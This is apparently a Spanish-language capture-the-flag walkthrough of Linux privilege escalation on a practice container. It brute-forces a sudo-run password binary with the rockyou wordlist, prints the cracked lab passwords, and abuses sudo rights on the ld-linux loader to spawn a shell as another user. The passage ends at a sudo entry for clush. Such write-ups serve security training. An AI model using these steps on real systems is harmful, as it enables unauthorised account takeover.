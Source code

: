 Vemos **password_nova** con permisos SUDO  :

   ```bash
sudo -u nova /opt/password_nova 
Escribe la contraseña (Pista: se encuentra en el rockyou ;) ):
```

Nos descargamos : https://github.com/Maalfer/Sudo_BruteForce/blob/main/Linux-Su-Force.py y modificamos la linea del if :

```bash
    if timeout 0.1 bash -c "echo '$password' | sudo -u $usuario /opt/password_nova" > /dev/null 2>&1; then
```


```bash

./Linux-Su-Force.sh nova rockyou.txt 
Contraseña encontrada para el usuario nova: cuteangel
└──╼ $ sudo -u nova /opt/password_nova 
Escribe la contraseña (Pista: se encuentra en el rockyou ;) ): cuteangel
Contraseña correcta, mi contraseña es: BlueSky_42!NeonPineapple

```

**Usuario -> nova**
**Contra -> BlueSky_42!NeonPineapple**

YA ESTAMOS COMO NOVA

Vemos si el usuario tiene permisos SUDO:
   ```bash
┌─[nova@79f4564391f7]─[/var/www/subdominio]
└──╼ $sudo -l
Matching Defaults entries for nova on 79f4564391f7:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User nova may run the following commands on 79f4564391f7:
    (maci : maci) NOPASSWD: /lib64/ld-linux-x86-64.so.2

```

Vemos **/lib64/ld-linux-x86-64.so.2** con permisos SUDO  :

```bash

┌─[✗]─[nova@79f4564391f7]─[/var/www/subdominio]
└──╼ $sudo -u maci /lib64/ld-linux-x86-64.so.2 /bin/bash

```

YA ESTAMOS COMO MACI.

Vemos si el usuario tiene permisos SUDO:
   ```bash
┌─[maci@79f4564391f7]─[/etc/clustershell/groups.d]
└──╼ $sudo -l
Matching Defaults entries for maci on 79f4564391f7:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User maci may run the following commands on 79f4564391f7:
    (ALL : ALL) NOPASSWD: /usr/bin/clush

```
